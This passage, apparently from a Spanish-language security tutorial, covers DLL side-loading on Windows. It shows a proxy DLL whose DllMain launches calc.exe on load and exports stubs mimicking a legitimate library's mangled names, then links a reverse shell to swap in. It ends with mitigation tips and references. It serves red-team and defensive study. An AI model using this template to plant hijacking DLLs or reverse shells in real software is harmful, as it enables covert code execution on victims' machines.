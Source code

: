 ```cpp
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
//seccion de exports
extern "C" __declspec(dllexport)
BOOL __cdecl _ZN2fz10async_task4joinEv() { return 1; }
extern "C" __declspec(dllexport)
BOOL __cdecl _ZN2fz10async_task6detachEv() { return 1; }
extern "C" __declspec(dllexport)
BOOL __cdecl _ZN2fz10async_taskC1EOS0_() { return 1; }
extern "C" __declspec(dllexport)
//continua...
```
9.  Compilamos y probamos

## DLL side-loading to reverse shell
Aquí agregamos el código necesario para una [reverse shell en windows](code/windows_rev_sh.cpp) o puede ser el código de tu elección, solo asegúrate que sea para CPP en Windows.
# Recomendaciones de mitigación
* Usar el path absoluto para llamar a la DLL
* Emplear herramientas automatizadas para detectar esta vulnerabilidad
* Usar alguna solución que sea capaz de bloquear DLL maliciosas cargadas por software legítimo
# Referencias
* [LoadLibraryA function ](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)
* [LoadLibrary and AfxLoadLibrary](https://learn.microsoft.com/en-us/cpp/build/loadlibrary-and-afxloadlibrary?view=msvc-170)
* [GetProcAddress function](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)
* [Dynamic-Link Library Security](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-security)
* [DllMain entry point](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain)
* [Dynamic-Link Library Entry-Point Function](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-entry-point-function)
* [Process Monitor v3.92](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)
* [Hijack Execution Flow: DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001/)
* [Hijack Execution Flow: DLL Side-Loading](https://attack.mitre.org/techniques/T1574/002/)
# Otros recursos
* [DLL SIDE-LOADING:A Thorn in the Side of the Anti-Virus Industry](https://www.mandiant.com/sites/default/files/2021-09/rpt-dll-sideloading.pdf)
* [DLL Side-Loading](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/untitled-5/dll-side-loading)